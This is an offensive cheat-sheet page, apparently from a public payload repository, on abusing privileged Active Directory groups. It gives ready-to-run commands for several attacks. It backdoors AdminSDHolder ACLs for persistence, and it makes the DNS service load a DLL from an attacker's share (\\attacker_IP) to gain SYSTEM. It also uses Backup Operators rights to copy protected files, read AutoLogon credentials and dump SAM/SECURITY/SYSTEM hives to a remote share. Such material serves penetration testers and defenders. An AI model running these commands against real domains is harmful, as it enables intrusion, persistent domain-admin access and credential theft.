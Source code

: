 # Active Directory - Groups 

## Dangerous Built-in Groups Usage

If you do not want modified ACLs to be overwritten every hour, you should change ACL template on the object `CN=AdminSDHolder,CN=System` or set `adminCount` attribute to `0` for the required object.

>  The AdminCount attribute is set to `1` automatically when a user is assigned to any privileged group, but it is never automatically unset when the user is removed from these group(s).

Find users with `AdminCount=1`.

```ps1
netexec ldap 10.10.10.10 -u username -p password --admin-count
# or
bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get search --filter '(admincount=1)' --attr sAMAccountName
# or
python ldapdomaindump.py -u example.com\john -p pass123 -d ';' 10.10.10.10
jq -r '.[].attributes | select(.adminCount == [1]) | .sAMAccountName[]' domain_users.json
# or
Get-ADUser -LDAPFilter "(objectcategory=person)(samaccountname=*)(admincount=1)"
Get-ADGroup -LDAPFilter "(objectcategory=group) (admincount=1)"
# or
([adsisearcher]"(AdminCount=1)").findall()
```


## AdminSDHolder Attribute

> The Access Control List (ACL) of the AdminSDHolder object is used as a template to copy permissions to all "protected groups" in Active Directory and their members. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins.

If you modify the permissions of **AdminSDHolder**, that permission template will be pushed out to all protected accounts automatically by `SDProp` (in an hour).

E.g: if someone tries to delete this user from the Domain Admins in an hour or less, the user will be back in the group.

* Windows/Linux:
  ```ps1
  bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 add genericAll 'CN=AdminSDHolder,CN=System,DC=example,DC=lab' john

  # Clean up after
  bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 remove genericAll 'CN=AdminSDHolder,CN=System,DC=example,DC=lab' john
  ```

* Windows only:
  ```ps1
  # Add a user to the AdminSDHolder group:
  Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=domain,DC=local' -PrincipalIdentity username -Rights All -Verbose

  # Right to reset password for toto using the account titi
  Add-ObjectACL -TargetSamAccountName toto -PrincipalSamAccountName titi -Rights ResetPassword

  # Give all rights
  Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName toto -Verbose -Rights All
  ```


## DNS Admins Group

> It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM).

:warning: Require privileges to restart the DNS service.

* Enumerate members of DNSAdmins group
  * Windows/Linux:
    ```ps1
    bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get object DNSAdmins --attr msds-memberTransitive
    ```
  * Windows only:
    ```ps1
    Get-NetGroupMember -GroupName "DNSAdmins"
    Get-ADGroupMember -Identity DNSAdmins
    ```
* Change dll loaded by the DNS service
    ```ps1
    # with RSAT
    dnscmd <servername> /config /serverlevelplugindll \\attacker_IP\dll\mimilib.dll
    dnscmd 10.10.10.11 /config /serverlevelplugindll \\10.10.10.10\exploit\privesc.dll

    # with DNSServer module
    $dnsettings = Get-DnsServerSetting -ComputerName <servername> -Verbose -All
    $dnsettings.ServerLevelPluginDll = "\attacker_IP\dll\mimilib.dll"
    Set-DnsServerSetting -InputObject $dnsettings -ComputerName <servername> -Verbose
    ```
* Check the previous command success
    ```ps1
    Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
    ```
* Restart DNS
    ```ps1
    sc \\dc01 stop dns
    sc \\dc01 start dns
    ```

## Schema Admins Group

> The Schema Admins group is a security group in Microsoft Active Directory that provides its members with the ability to make changes to the schema of an Active Directory forest. The schema defines the structure of the Active Directory database, including the attributes and object classes that are used to store information about users, groups, computers, and other objects in the directory.


## Backup Operators Group

> Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group cannot be renamed, deleted, or moved. By default, this built-in group has no members, and it can perform backup and restore operations on domain controllers.

This groups grants the following privileges :

- SeBackup privileges
- SeRestore privileges

Get members of the group:

* Windows/Linux:
    ```ps1
    bloodyAD --host 10.10.10.10 -d example.lab -u john -p pass123 get object "Backup Operators" --attr msds-memberTransitive
    ```

* Windows only:
    ```ps1
    PowerView> Get-NetGroupMember -Identity "Backup Operators" -Recurse
    ```

Enable privileges using [giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)

```ps1
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

Retrieve sensitive files

```ps1
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag.txt C:\Users\Public\flag.txt -Overwrite
```

Retrieve content of AutoLogon in the `HKLM\SOFTWARE` hive

```ps1
$reg = [Microsoft.Win32.RegistryKey]::OpenRemoteBaseKey('LocalMachine', 'dc.htb.local',[Microsoft.Win32.RegistryView]::Registry64)
$winlogon = $reg.OpenSubKey('SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon')
$winlogon.GetValueNames() | foreach {"$_ : $(($winlogon).GetValue($_))"}
```

Retrieve `SAM`,`SECURITY` and `SYSTEM` hives

* [mpgn/BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA): `.\BackupOperatorToDA.exe -t \\dc1.lab.local -u user -p pass -d domain -o \\10.10.10.10\SHARE\`
* [improsec/BackupOperatorToolkit](https://github.com/improsec/BackupOperatorToolkit): `.\BackupOperatorToolkit.exe DUMP \\PATH\To\Dump \\TARGET.DOMAIN.DK`


## References

* [Poc’ing Beyond Domain Admin - Part 1 - cube0x0](https://cube0x0.github.io/Pocing-Beyond-DA/)
* [WHAT’S SPECIAL ABOUT THE BUILTIN ADMINISTRATOR ACCOUNT? - 21/05/2012 - MORGAN SIMONSEN](https://morgansimonsen.com/2012/05/21/whats-special-about-the-builtin-administrator-account-12/)